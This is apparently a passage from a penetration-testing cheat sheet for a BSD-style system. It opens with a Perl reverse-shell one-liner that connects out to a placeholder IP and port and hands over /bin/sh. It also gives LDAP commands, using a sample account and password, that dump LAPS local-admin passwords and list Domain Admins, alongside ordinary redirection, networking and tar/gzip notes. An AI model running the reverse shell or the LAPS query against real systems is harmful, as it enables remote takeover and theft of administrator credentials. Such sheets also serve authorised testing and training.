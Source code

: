 - perl: 

```
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

IO Redirection
--------------
- `>` - Redirect standard out (STDOUT), truncates
- `>>` - Redirect STDOUT and appends
- `1>` - Redirect standard out (STDOUT), truncates
- `1>>` - Redirect STDOUT and appends
- `2>` - Redirect error messages (STDERR)
- `M>&N` - Redirect file descriptor M to N (for example 2>&1 will redirect STDERR to STDOUT to unify output)

Networking
----------
| what do                | command     |
| ---------------------- | --------------- |
| list listening ports   | `netstat -ltnu` |
| list interfaces | `ifconfig -a` |
| list routing table | `route -n show` |
| arp table | `arp -a` |
| active connections | `netstat -nat` |
| find hostname | `cat /etc/myname` or `hostname` |
| find DNS resolver | `cat /etc/resolv.conf` |
| find gateway | `cat /etc/mygate` or `route -n show` |

Centralized Authentication (LDAP/NIS)
----------------------------------------------
* `getent`
  * `getent passwd`
* ldap:
  * `ldap` - builtin client
  * LAPS passwords: `ldap search -H 10.13.37.2 -D "sqladmin" -w Summer18 -b "dc=DC,dc=EXAMPLE,dc=COM" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd`
  * Get Domain Admin users: `ldap search -H 10.13.37.2 -D "sqladmin" -w Summer18 -b "dc=DC,dc=EXAMPLE,dc=COM" -s sub '(&(objectCategory=user)(memberOf=cn=Domain Admins,cn=Users,dc=DC,dc=EXAMPLE,dc=COM))'`
  * Get all Machines: `ldap search -H 10.13.37.2 -D "sqladmin" -w Summer18 -b "dc=DC,dc=EXAMPLE,dc=COM" -s sub "(objectCategory=computer)"`

Compression
-----------
- `tar xf file.tar`
- `tar xzf file.tar.gz`
- `tar xJf file.tar.xz`
- `tar xjf file.tar.bz2`
- `gzip -c file > file.gz`
- `gzip file`
- `gzip -d file.gz`
- `gunzip file.gz`
